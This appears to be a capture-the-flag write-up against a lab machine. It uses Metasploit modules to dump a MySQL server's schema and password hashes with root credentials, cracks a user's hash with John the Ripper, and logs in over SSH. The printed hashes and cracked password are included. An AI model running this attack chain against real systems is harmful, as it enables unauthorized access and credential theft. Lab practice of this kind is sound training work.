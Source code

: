 ***Lets crack the database***

In the first step use mysql_schema_dump in metasploit Framework to dump database tables.

```bash
search mysql_schemadump
use 0
options
set PASSWORD password
set RHOSTS 10.10.239.122
set USERNAME root
exploit
```

	Results
	a very big dump!
	
**Getting all hashes in Databes**	
```bash
search mysql_hashdump
use 0
options
set PASSWORD password
set RHOSTS 10.10.239.122
set USERNAME root
exploit
```

	Results
	[+] 10.10.239.122:3306    - Saving HashString as Loot: root:
	[+] 10.10.239.122:3306    - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
	[+] 10.10.239.122:3306    - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
	[+] 10.10.239.122:3306    - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
	[+] 10.10.239.122:3306    - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
	[+] 10.10.239.122:3306    - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18

**Cracking hash from carl with JohnTheRipper**
```bash
echo 'carl:*EA031893AA21444B170FC2162A56978B8CEECE18' > hash.txt
john hash.txt
```

	Results
	doggie           (carl)

**SSH into machine with user carl and password**
```bash
ssh carl@$IP
password->doggie
# now in
ls
cat mysql.txt
```
